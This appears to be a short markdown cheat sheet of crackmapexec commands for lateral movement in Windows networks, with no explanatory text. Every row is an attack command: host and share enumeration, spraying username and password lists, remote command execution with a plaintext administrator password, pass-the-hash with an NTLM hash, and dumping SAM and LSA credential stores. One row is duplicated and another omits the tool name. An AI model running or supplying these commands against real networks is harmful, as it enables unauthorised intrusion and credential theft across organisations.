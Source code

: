 ### lateral movement
| for Example |
| -------------|
| crackmapexec 192.168.100.1/24 |
| crackmapexec cme-hosts.txt --shares |
| cme-hosts.txt -u username.txt -p password.txt --shares |
|crackmapexec 192.168.100.10 -u Administrator -p 'Passw0rd!' -x "net users" |
| crackmapexec smb 192.168.100.1/24 -u Administrator -p 'Passw0rd!' -x "net users" |
| crackmapexec smb 192.168.100.1/24 -u Administrator -H  aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889  -x "hostname" |
| crackmapexec smb 192.168.100.1/24 -u Administrator -H  aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889  -x "hostname" |
| crackmapexec smb 192.168.100.10 -u Administrator -H  aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889 --sam |
|crackmapexec smb 192.168.100.10 -u Administrator -H  aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889 --lsa |
